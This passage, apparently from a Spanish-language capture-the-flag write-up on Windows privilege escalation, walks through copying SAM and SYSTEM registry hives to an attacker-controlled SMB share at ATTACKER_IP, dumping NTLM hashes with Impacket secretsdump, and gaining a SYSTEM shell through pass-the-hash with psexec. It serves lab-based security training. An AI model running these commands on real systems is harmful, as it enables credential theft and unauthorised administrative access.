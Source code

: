 Seguidamente pasamos estos ficheros a nuestra máquina atacante mediante el siguiente procedimiento:

En primer lugar, en nuestra máquina Linux montamos con Python un nexo con la máquina víctima empleando el paquete de python *smbserver.py* para iniciar un servidor SMB simple:

```bash
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Y en la máquina Windows copiamos los mencionados ficheros a la máquina atacante:

```cmd
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\ C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Y en la máquina atacante recuperamos los hashes

```bash
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Finalmente con estas credenciales podemos perpetrar un Pass-the-Hash attack y ganar acceso a la máquina con una cuenta con privilegios superiores:

```bash
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.134.52
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami

nt authority\system
```

<br />

- *SeTakeOwnership*:
